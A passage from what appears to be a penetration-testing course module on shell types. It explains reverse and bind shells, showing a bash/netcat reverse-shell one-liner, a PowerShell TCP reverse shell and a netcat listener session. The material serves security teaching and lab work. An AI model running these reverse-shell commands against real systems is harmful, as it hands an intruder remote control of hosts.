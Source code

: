Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

Types of Shells

```shell
6165@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

___

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

___

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.
